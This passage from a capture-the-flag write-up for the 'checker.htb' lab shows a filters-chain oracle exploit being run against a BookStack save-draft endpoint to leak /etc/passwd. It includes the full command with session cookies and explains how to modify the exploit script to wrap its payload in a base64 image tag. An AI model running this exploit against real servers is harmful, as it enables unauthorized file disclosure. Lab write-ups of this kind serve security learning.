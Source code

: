 The Oracle exploit works with url encoded requests, but as we can see in BurpSuite we are sending JSON requests. In order to make the exploit work, we have to changed the `Content-Type` to `application/x-www-form-urlencoded`. We run the exploit as follows:

```console
s3rp3nt@OMEN:~$ python3 filters_chain_oracle_exploit.py --target 'http://checker.htb/ajax/page/10/save-draft' --file '/etc/passwd' --verb PUT --parameter html --headers '{"Content-Type":"application/x-www-form-urlencoded","X-CSRF-TOKEN":"L756lGhCCOxPAtJGbYnt2vWCqFP32qkPA1qZN9K7","Cookie":"XSRF-TOKEN=eyJpdiI6Inc0YTlpRjRaVUlGanNLNWxuMTlYVlE9PSIsInZhbHVlIjoiMCt6T2E0enRlb0tzWExoQVQ2TmQrd2JJQkVqTkt0eXV5Mkcxbm5qQjFyR0l3bXMvZ3RLczBudThKSWNKSWxaUU0xM3ZXSHI1RXJQSlk4cVZLMHRLbXJBL0Fjc09zSmZ4UWlNTFlYTmIyR0dXRGZnMUd6N2RaYmgvMlBxaTF0RVIiLCJtYWMiOiJlZWVjYjA2MzljODk1YTI4OGYwNGRlMThlMWVjZDUyMmY4NDVhYjI0ZGRhMWM0YjQwMGY1YTIyZTA5YzJiMTNmIiwidGFnIjoiIn0%3D; bookstack_session=eyJpdiI6ImU3dng4c2lFbWRpTHVFQzZEbklVbWc9PSIsInZhbHVlIjoiUWNPWGtJZWs3Ym1oUWZvVDhrdnZVWXNoUGIvcy9md0xjcW1qd2JtRDlvUjlINUdwQ2ExcmdBTmJRcnIrT2dsdDhFMXNSZWNaUUMvZFpKaGtnbXBBZXY2eWQ0K1hnNGlUZCtSRXhOWnVYc2UydWV3eFFmS2FSSkY4RXFEeGtOWUciLCJtYWMiOiI3ZGU0MWMwYTg5NDZiZWI1YzYzNGQxMzk1ZTI3ZDc1ZGE4ZGIyMWY5MGZkYmRmOGYwMGM2NWE1NzFiMzhlNmRlIiwidGFnIjoiIn0%3D; teampass_session=j7355s4vo14islb0n6e34usucu; jstree_select=1; 558fa9b1ffa04df378a1f2bb1a4cceed1e7cc9d4adbbfe21e2=071b2fcb9049e82b06036864832ea6a9364392df2c1fe3f364"}' --proxy http://localhost:8080
[*] The following URL is targeted : http://checker.htb/ajax/page/10/save-draft
[*] The following local file is leaked : /etc/passwd
[*] Running PUT requests
```

The above command fails with several errors about encoding problems. We redirect our request to BurpSuite with the `--proxy` argument and inspect the requests that are made.

![](/assets/images/writeups/checker/burp-oracle-wrong.png)

If we follow along with the video in the PoC, our `html` parameter has to be in the format of `<img=src='data:image/png;base64,<BASE64_PAYLOAD>' />`. We will have to make some modifications to the script. If we go to `filters_chain_oracle/core/requestor.py` we can modify line 108 to base64 encode our payload and add the required `img` tag.

![](/assets/images/writeups/checker/burp-oracle-changes.png)

